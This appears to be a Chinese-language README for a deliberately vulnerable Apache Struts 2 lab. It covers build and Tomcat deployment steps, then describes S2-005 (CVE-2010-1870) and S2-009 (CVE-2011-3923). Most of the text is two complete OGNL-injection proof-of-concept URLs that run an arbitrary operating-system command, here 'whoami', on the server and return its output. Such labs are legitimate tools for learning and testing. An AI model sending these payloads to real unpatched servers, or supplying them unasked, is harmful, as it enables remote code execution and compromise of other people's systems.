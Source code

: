 # 环境
Requires Java 1.8+ and Maven 3.x+

# 使用方法
1.下载
git clone https://git.oschina.net/0d/Struts2_bugs.git

2.查看远程分支
git branch -a

3.切换到分支
git checkout 分支名
如git checkout S2-005

4.打包
mvn clean package

5.部署在Tomcat中
将\target中生成的Struts2_bugs-0.0.1-SNAPSHOT.war复制到Tomcat下的webapps目录中，然后开启Tomcat


# 相关信息

1.S2-005

CVE-2010-1870

影响版本：Struts 2.0.0 – Struts 2.1.8.1 

官方公告：http://struts.apache.org/docs/s2-005.html

POC:
http://127.0.0.1:8080/Struts2_bugs-0.0.1-SNAPSHOT/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter("cmd"))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[1000]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)(('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd /c whoami

2.S2-009
CVE-2011-3923
影响版本：Struts 2.0.0 -Struts 2.3.1.1
官方公告：http://struts.apache.org/docs/s2-009.html
POC:
http://127.0.0.1:8080/Struts2_bugs-0.0.1-SNAPSHOT/test.action?class.classLoader.jarPath=%28%23context["xwork.MethodAccessor.denyMethodExecution"]%3d+new+java.lang.Boolean%28false%29%2c+%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c+%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew+java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[50000]%2c%23c.read%28%23d%29%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23sbtest.println%28%23d%29%2c%23sbtest.close%28%29%29%28meh%29&z[%28class.classLoader.jarPath%29%28%27meh%27%29]


